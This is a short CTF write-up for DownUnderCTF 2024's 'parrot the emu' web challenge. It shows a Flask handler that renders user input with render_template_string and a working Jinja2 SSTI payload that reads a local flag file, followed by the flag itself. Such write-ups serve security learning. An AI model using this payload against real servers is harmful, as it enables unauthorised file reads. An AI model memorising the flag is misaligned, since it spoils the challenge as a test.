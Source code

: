 ```yaml
---
title: "parrot the emu"
description: "It is so nice to hear Parrot the Emu talk back"
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```




We are given web source and an instance. The website reflects what you type:

![parrottheemu](images/24-downunder/parrottheemu.png)

Looking in the source code is something of interest:
```python
...
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)
...
```

`render_template_string` is generally dangerous with unvalidated user input as it's vulnerable to SSTI, as this is Python, Jinja2 SSTI is quite a good start.

I first tried the payload `{%raw%}{{7*7}}{%endraw%}` and the parrot responds with `49`, perfect!

Now we need to try to read the `flag` file, I try various payloads but find this one works: `{%raw%}{{ get_flashed_messages.__globals__.__builtins__.open("./flag").read() }}{%endraw%}`.

![parrottheemusolve](images/24-downunder/parrottheemu-solve.png)

Flag: `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`